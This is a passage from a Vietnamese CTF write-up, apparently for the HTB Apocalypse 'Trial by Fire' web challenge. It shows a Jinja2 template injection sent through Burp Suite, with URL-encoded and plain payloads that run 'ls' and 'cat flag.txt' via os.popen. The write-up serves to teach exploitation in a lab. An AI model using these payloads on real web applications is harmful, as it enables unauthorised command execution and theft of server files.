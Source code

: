 Sau khi gửi form, bên `Intercept` của `BurpSuite` sẽ hiển thị

![trialbyfirehint3](/assets/images/HTB-Apocalypse/Web/web_trial_by_fire/trialbyfirehint3.png)

Có vẻ như server dùng URL encode, ta sẽ encode lại payload ĐẦY ĐỦ của mình
{% raw %}
```
%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('ls').read()%7D%7D
```
{% endraw %}

Sau khi đổi payload ta sẽ được

```html
warrior_name=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('ls').read()%7D%7D
```

Ấn `Forward` và tắt `Intercept`

Sau khi bạn chơi minigame đến khi có được battle-report

![trialbyfirehint4](/assets/images/HTB-Apocalypse/Web/web_trial_by_fire/trialbyfirehint4.png)

Chúc mừng bạn đã tìm được flag, giờ đã có thể gửi payload để xem nột dung của flag rồi đó
{% raw %}
```jinja
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```
{% endraw %}
